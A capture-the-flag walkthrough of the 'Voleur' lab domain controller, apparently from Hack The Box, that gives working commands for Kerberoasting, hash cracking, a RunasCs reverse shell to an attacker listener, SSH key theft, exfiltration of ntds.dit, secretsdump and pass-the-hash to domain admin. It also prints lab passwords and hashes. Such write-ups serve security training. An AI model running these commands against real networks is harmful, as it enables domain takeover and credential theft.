# Voleur



First things first, you gotta know what you're dealing with. We ran a quick but deep nmap scan to see what doors were open on the machine.

‍

```command
nmap -sCV -p- 10.10.11.76 -Pn -oN nmap_result --min-rate=5000
```

‍

The results basically screamed "Domain Controller!" We saw all the usual suspects: DNS (port 53), Kerberos (port 88), SMB (port 445), and LDAP (port 389). This confirmed we were up against a full-blown Active Directory environment.

Two things stood out, though:

1. **Port 2222 was open with SSH.**  This is a bit unusual for a Windows DC and hinted that maybe Windows Subsystem for Linux (WSL) was set up. We filed that away for later.
2. **Port 5985 was open for WinRM.**  This is our go-to for getting a remote shell if we can get credentials.

‍

```ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-06 12:58:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2222/tcp  open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_  256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

‍

### **Step 2: Finding the First Weak Link (Kerberoasting)**

Since we were in an "Assumed Breach" scenario, we started with a user's credentials (`ryan.naylor`​). The first thing to do in any AD environment is to map it out. We used `BloodHound`​ for this.

‍

```ports
bloodhound-python -u ryan.naylor -p 'HollowOct31Nyt' -c All -d VOLEUR.HTB -ns 10.10.11.76 --zip -k
```

‍



BloodHound drew us a beautiful map of the domain, and sure enough, it pointed out a classic weak spot: a "kerberoastable" user named `svc_ldap`​.

‍

```ports
impacket-getTGT VOLEUR.HTB/svc_ldap:'M1XyC9pW7qT5Vn' -dc-ip 10.10.11.76
```

‍



In simple terms, this means we could ask the domain for a special ticket for that service account. The ticket is encrypted with the account's own password hash. We can take that ticket offline and try to crack the password without ever alerting the system.

‍

```ports
python3 targetedKerberoast/targetedKerberoast.py -k --dc-host dc.voleur.htb -u svc_ldap -d voleur.htb
```

​

```ports
[+] Printing hash for (lacey.miller)
$krb5tgs$23$*lacey.miller$VOLEUR.HTB$voleur.htb/lacey.miller*$3391085fe15e0d83c21227f1390235c7$c19799130f8db72d599e918c61ddd7b529da600e1cd77f0816cde29e0ae8445b53f2ad2976ece099e3b6fcbace20952aa1962a37e17c9bdd389bc687d95a2f605b780b4d8ba812f3a8d0e00dde8efbfe601bb8c6c60081879970300b509ec77cc63e64581a6c12f183c4b787d0f730666f0fa743e9a95954c1e9861a0d913d3a69dd222adb019caba6c79c44f1c28b4aeb463d9cf8ec0c08f216f91849c83753af3f20de1ce72b098c94a03cd8e9939699f4bca32f3488f06b79fd36c6975db93b5ce641effa5d2a694ae2dc65b2f34a9535e7876a56367738431287aea0a3cbd1ce7270fb66c7b3bab98802103a66981b6322e31f6b7a80fe7e4594cc9b2d90faa49cde51d2da7ba02385c77f836128d60168f18ad654d945e037d6c397264846313e0386d952f98e65aa6851802d8f2facd0509ff1f6d6afdd4a5cb29a398144d896765117b0eaa2217723b60e54bef9062c5827225c057177e671c3ff28d3dbff3fff4477f1d5301ed112218ce9c0933e41705aaa3254c4bfd07cfedbca8317d1dcd1b09eff2be4f5337f44825aead7a7c291445bab0939560e44d8ef5d863975dc268695f12a5a9b2c54c47a8a5b62568121967a09b4b8553bd8a32f1d3b632abc4dd7fe0a106f277d0160ed897add0708e81df2c831d6561e9bdb2ffd420bb24be7302324e264b28293e3bfe93492365206e73d34d5e534164c46c98f3d2fe4156fbe8a8258a699769e3bcdf7200f4c157d0ad8d55033728090567ae64b4c934cc64bec11ee46bc9767bfc7565f4d9325a19838a50f98797676a48039b838606867985c117e07c7f161d39e915c2ac5db85dd478674f2c757074eba6bfeff03486a282f95d730b2a60447fdc4f16434a48fdf0fa32d988938cdb0d18704fc1fd4156b95ac9b228d7fc670da2be65156555569e11ec948ed21b97f1eef9d9223ad459b5be5d4aa6c55bd7381cc1e7f653f8fa752ff66d92aa9e31536c9eae0624846f8ce5cdbe97e6d2353ddf040efee5a9ae2e1b0cceafa51188afaff86f2cafc7936c15737d62c41214eb84baa210580ff45febc1ed5852b7504d856aea4b3c8128b935023ad292716d7e6b13840492d0016798d9585638163a457ef3baeedf309532a80bfe63325788c22c764213a6419f540fd847ae1429ef59de8ee6fb2bb5930f550413dc52195ae7efa82781c4c5da06118f0af335805b11fd22a0ab110a3e06c48620ba3da2a68b3d32d336f54b5260d47bc90a0e3df1c7db98f5abf906eb60188fb36fdbfd82eb2fc9c946013651ad9522532cd99fb80a8a21abbbb5cbc8f2f66771b380a85d2e463a53629c6de701648c80c8627fded3bde4384b3aea509ec45f3f5c0d99a1a9db683a2a98a17884500f968b423a3f4e743cbf6f51c11b0f6947a9043ca0b2428ff08cc89eddb35db02ee1c954142c49b471185c3de4e476192c095e85e902bc6d4a15fe342
[+] Printing hash for (svc_winrm)
$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm*$15a80dcd49a90a2813e4deea5ec1ca03$9bb4a6f3e17e82829d9cb9bcdbd9fd12458f8ad89a99ecaef63e2b3c37880d5f3cb60964a5ac466c55a11b7fa7cde5f0f08b003ae804a7dd997a9370f8aefea6fb983ad7c3c715df4343e358b2c25a5938ed05bcce542f0beb71dbf0daded672a1bdde468aba1d3fa2286f3f9d4d33cfeb1c151e4f279650dbfdbc8c694fe148a1da08eb3b0e5cf32338cd653ef338e80537fab0e232dd65eee94a3529b782a76704a52abf4a423f45e215a9c48ed735243541e9f975683c99736aa7ef4ce7a17ea69314d69e6c916884660106ec85e8126017c1195a9cdc5eae1b5e7346c15be05b3500c487b40a900aacd96001dc8d904a4697023145ae28dda4fb1f7ff6ea41e0982aad5d9b3f4e10795188097ac054b4a7829c5afe05184e67d5c9492bba6581d286973b980f63714461333a5345de8b888d8adf495f13d54783dbe513b3aa4159b621b4a1c32663b31890f9e0718e5f299dc087f6eecd49dc609a7ae138a7e4878e6537d6ef2fb11906a271cd5620655240afffd68d850b28b0710e8e78dec41d825685fee533325244b82c35783f1a0422a09b78daddfeab96ba2b9cf6c2822cfabef00b36efec030b8a17c38c246b97f391422f6f74461cf22333c385f7ea5f4828f1689f348f3e1ca6a713858557da07895dbd19f9d8090a02b97340f4ecc60c7237ab878779543ec0f073d553ff923074b02f59a58d8085592c5ba43d51d9cc64379e971d4089e900a6d95de50012c820d335a0cd764fca318b22ed2b37c1cd1a42f913e61b36429a0290f1de4e79fdc29e69e69482611888146937d8c71c0253d36a8378022f5613e16d8a8c711c9beb16dfd1d56471ce8376677434dd71719fc3117b6a9eeb11630ef725ffc8a0b63517348473989ab0233aff1b4d233754cffda8fa3969796ba9cecc6c4fbc75ade8980d92441e961578769ccc98349e48efaf11a98a5e8bd1721ac43ee7b63f6e1dad6b05baaa79e94a28ced9ccae27b13a7ba146e26724cdf4bde5404c7f09578a16f7f99e6dcfa335fe34b44a0d5c341efa2a1e1e081f83fea98c6174d32d4e0e9e2e4872038fb8919dc3f4a89b4bf4ff9c55cfd257ba5868e37bc48b67c09bbbee6b62f617be485601b9f1d1bc7bd516d03864b1f8f15c83a74f369d4d7b47eb71205f40687447c49ce1141ac018fd3d12b04644d619f4436985d0cae1b712b1d0364cb87239805f77e7281b56b28038246c70cfd41c2a118ec53615b7b2faaa2ad648696cc58cf7a4088f1d32bd8b2e02b6b0be648a7ce6dd728ad2a63a29fbcf211cee97ad301f6314247bee94e30c79e6360e61ecd0a8fee6d1928a5b61038593583ebca0247eef76f06d291fe7446dd00bdbf085da7d99c0310ce365d2b293279aafd9a48aee6747116bb7fa7481fc6b7630beaa278d4e0c80ab0ace263ba282b2ea51353f3813086adae098dd0cb5b0f853914b4c5f721822ad7b65
```

‍

Cracked the hash.txt of `svc_winrm`​

```ports
john hash.txt --wordlist=rockyou.txt
```

‍



### **Step 3: Cracking the Password and Getting In**

We took that hash, threw a big list of common passwords (rockyou.txt) at it using john, and... bingo!

We got the password for:

> svc\_winrm: AFireInsidedeOzarctica980219afi.

‍

Now generating manual TGT of `svc_winrm`​

‍

```ports
evil-winrm -i dc.voleur.htb -k -u svc_winrm -r VOLEUR.HTB
```

‍



```ports
.\RunasCs.exe svc_ldap M1XyC9pW7qT5Vn cmd.exe -r 10.10.16.47:4444
```

‍

```ports
rlwrap -f . -r nc -lvnp 4444
```



### **Step 4: The Ghost in the Machine (Pivoting)**

This next part was pretty slick. Inside the network, we found another set of credentials for `svc_ldap`​. Using that user's access, we started poking around and found a "ghost" in the system—a deleted user account named `todd.wolfe`​.

Why is that interesting? Because sometimes, when you restore a deleted user in Active Directory, it comes back with its old group memberships and, crucially, its old password hash still works!

So we resurrected the `todd.wolfe`​ account. We guessed his old password (a common one, `NightT1meP1dg3on14`​) and, what do you know, it worked! This gave us yet another user to play with.

‍

```powershell
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects
-Properties objectSid, lastKnownParent, ObjectGUID | Select-Object Name, ObjectGUID,
objectSid, lastKnownParent | Format-List
```

‍



```powershell
Deleted           : True
DistinguishedName : CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb
Name              : Todd Wolfe
                    DEL:1c6b1deb-c372-4cbb-87b1-15031de169db
ObjectClass       : user
ObjectGUID        : 1c6b1deb-c372-4cbb-87b1-15031de169db
```

‍

now we restore `todd.wolfe`​

```powershell
Restore-ADObject -Identity '1c6b1deb-c372-4cbb-87b1-15031de169db'
```

‍



‍

Genrated TGT of `todd.wolfe`​

```powershell
impacket-getTGT voleur.htb/todd.wolfe:'NightT1meP1dg3on14' -dc-ip DC.VOLEUR.HTB
```

‍

```cred
Username : jeremy.combs
Unknown : qT3V9pLXyN7W4m
```

‍

‍

```powershell
impacket-getTGT VOLEUR.HTB/jeremy.combs:'qT3V9pLXyN7W4m' -dc-ip DC.VOLEUR.HTB
```

```powershell
export KRB5CCNAME=jeremy.combs.ccache
```

‍

```powershell
KRB5CCNAME=jeremy.combs.ccache smbclient.py -k DC.VOLEUR.HTB
```

‍

```powershell
# use IT
# ls
drw-rw-rw-          0  Wed Jan 29 14:40:01 2025 .
drw-rw-rw-          0  Tue Jul  1 02:38:33 2025 ..
drw-rw-rw-          0  Thu Jan 30 21:41:29 2025 Third-Line Support
# cd Third-Line Support
# ls
drw-rw-rw-          0  Thu Jan 30 21:41:29 2025 .
drw-rw-rw-          0  Wed Jan 29 14:40:01 2025 ..
-rw-rw-rw-       2602  Thu Jan 30 21:41:29 2025 id_rsa
-rw-rw-rw-        186  Thu Jan 30 21:37:35 2025 Note.txt.txt
# mget id_rsa
[*] Downloading id_rsa
# mget Note.txt.txt
[*] Downloading Note.txt.txt
```

‍

### **Step 5: The Golden Ticket (Finding the SSH Key)**

Pivoting through these accounts, we eventually got access as `jeremy.combs`​ and started looking through the file shares. In the `IT`​ share, we hit a mini-jackpot:

- A file named `Note.txt.txt`​
- An SSH private key file named `id_rsa`​

The note from the 'Admin' basically said, "Hey, I'm setting up Linux for our backups." This was a massive clue. The SSH key almost certainly belonged to a backup service account. Putting two and two together, we guessed the username was `svc_backup`​.

‍

​

‍



‍

### **Step 6: The Heist (Stealing the AD Database)**

Remember that weird SSH port (2222) from the beginning? This was where it came into play. We used the id_rsa key to log in as svc_backup.

‍

```powershell
ssh svc_backup@voleur.htb -p 2222 -i id_rsa
```

​

This dropped us into a Linux shell running on the Windows machine (thanks, WSL!). And as a backup user, we had permission to read the backup folders.

From there, we grabbed the holy grail of any Active Directory pentest:

- The entire user database (ntds.dit)
- The SYSTEM registry hive (which acts as the key to unlock the database)

We scp'd both files right off the server and onto our own machine.

‍

```powershell
scp -P 2222 -i id_rsa "svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/Active Directory/*" ./ && \
scp -P 2222 -i id_rsa "svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/registry/*" ./
```



### Step 7: Game Over - Becoming Domain Admin

Once you have the ntds.dit and SYSTEM files offline, it's effectively game over.

We used impacket-secretsdump.py to crack open that database. It instantly dumped the password hashes for every single user in the domain, including the Administrator.

‍

```powershell
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

‍

Secret Dumped :) 



‍

```powershell
impacket-getTGT voleur.htb/administrator -hashes :e656e07c56d831611b577b160b259ad2 -dc-ip 10.10.11.76

export KRB5CCNAME=administrator.ccache
```

‍

We didn't even need to crack the Administrator's hash. We just used the hash itself to authenticate in a "Pass-the-Hash" attack. We got an Administrator Kerberos ticket and then used evil-winrm one last time.

This time, we logged in as the Administrator. We navigated to the desktop, read the root.txt file, and owned the entire domain.

‍

```powershell
evil-winrm -i dc.voleur.htb -k -u administrator -r VOLEUR.HTB
```

‍



‍
